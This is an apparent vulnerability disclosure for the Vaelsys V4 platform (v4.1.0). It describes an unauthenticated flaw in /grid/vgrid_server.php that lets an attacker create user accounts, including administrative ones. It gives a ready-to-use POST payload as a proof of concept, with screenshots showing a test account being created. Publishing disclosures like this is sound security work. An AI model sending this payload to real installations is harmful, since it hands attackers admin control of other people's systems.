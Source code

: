 # Unauthorized User Creation Vulnerability Exists in Vaelsys V4 Platform

BUG_Author: waiwai

Affected Version: v4.1.0 

Vendor：[Vaelsys](https://vaelsys.com/)

Product: Vaelsys V4 

Vulnerability Files: /grid/vgrid_server.php

## Description

The Vaelsys V4 Platform suffers from a severe arbitrary user creation vulnerability. Attackers can exploit this flaw to create unauthorized user accounts, including those with administrative privileges, by submitting crafted POST requests to the `grid/vgrid_server.php` endpoint, bypassing all authentication and authorization controls.

Prerequisites: Valid PHP session ID (PHPSESSID) required; No authentication required.

## POC

Construct the username and password you want to add

```
xajax=save&xajaxr=1752633961171&xajaxargs[]=Users&xajaxargs[]=auth&xajaxargs[]=%3Cxjxquery%3E%3Cq%3E_qf__dataobjects_auth%3D%26id%3D%26password%3D123456%26username%3Dtest%26newpassword%3D123456abc%26repassword%3D123456abc%26expirationTime%3D%26profile%3D1%26language%3Den%26__submit__%3DSubmit%3C%2Fq%3E%3C%2Fxjxquery%3E
```

![屏幕截图 2025-07-16 105557](./assets/Unauthorized_User_Creation_Vulnerability_Exists_in_Vaelsys_V4_Platform/1.png)

We can observe that the test user account has been successfully created in the web application.

![屏幕截图 2025-07-16 105823](./assets/Unauthorized_User_Creation_Vulnerability_Exists_in_Vaelsys_V4_Platform/2.png)

